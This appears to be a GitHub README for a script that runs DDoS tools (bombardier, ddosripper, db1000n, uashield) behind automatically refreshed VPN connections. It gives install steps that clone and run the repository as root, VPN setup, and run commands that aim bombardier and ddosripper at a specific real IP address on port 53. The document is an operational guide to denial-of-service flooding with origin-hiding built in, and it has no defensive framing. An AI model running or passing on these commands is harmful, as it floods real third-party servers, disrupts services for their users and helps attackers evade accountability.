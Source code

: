 # Ubuntu runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
cd / && sudo rm -rf runner && \
sudo git clone https://github.com/ctukraine22/runner && \
cd /runner && bash install.sh
```

# Init
```
/runner/init.sh user1 code1 expressvpn Country
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-counties" %vpn-servers% %vpn-transport% %vpn-cret-repo%
```

# Run

```
/runner/run.sh bombardier 194.58.196.62 53 
/runner/run.sh ddosripper 194.58.196.62 53 
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need fork this repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost

# Supported tools
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali